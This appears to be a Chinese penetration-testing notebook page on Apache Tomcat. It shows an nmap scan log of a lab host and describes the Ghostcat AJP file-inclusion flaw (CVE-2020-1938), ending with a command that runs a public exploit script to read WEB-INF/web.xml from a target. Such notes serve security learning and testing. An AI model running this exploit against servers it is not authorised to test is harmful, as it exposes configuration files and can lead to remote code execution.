 ```yaml
---
title: Tomcat
category:
- [Kali, Exploit]
tags:
  - null
date: 2020-12-04 20:23:16
top:
updated:
---
```


Apache 和 Tomcat 都是web网络服务器，两者既有联系又有区别，在进行HTML、PHP、JSP、Perl等开发过程中，需要准确掌握其各自特点，选择最佳的服务器配置。  
　　Apache是web服务器（静态解析，如HTML），tomcat是java应用服务器（动态解析，如JSP）  
　　Tomcat只是一个servlet(jsp也翻译成servlet)容器，可以认为是apache的扩展，但是可以独立于apache运行


## 信息收集
```zsh
sudo nmap -sV -Pn -T4 -sSU -p 8080,8009 -sC    192.168.79.207
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-04 18:47 CST
Nmap scan report for 192.168.79.207
Host is up (0.00012s latency).

PORT     STATE  SERVICE  VERSION
8009/tcp open   ajp13    Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open   http     Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
8009/udp closed unknown
8080/udp closed http-alt

Nmap done: 1 IP address (1 host up) scanned in 7.62 seconds
```


## Apache Tomcat文件包含漏洞-CNVD-2020-10487/CVE-2020-1938

该漏洞是由于Tomcat AJP协议存在缺陷而导致，攻击者利用该漏洞可通过构造特定参数，读取服务器webapp下的任意文件。若目标服务器同时存在文件上传功能，攻击者可进一步实现远程代码执行。

### 在线检测
> https://www.chaitin.cn/en/ghostcat


[Tomcat-AJP文件包含工具](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi.git)
````
./CNVD-2020-10487-Tomcat-Ajp-lfi.py -p 8009 -f WEB-INF/web.xml 10.184.67.100

````

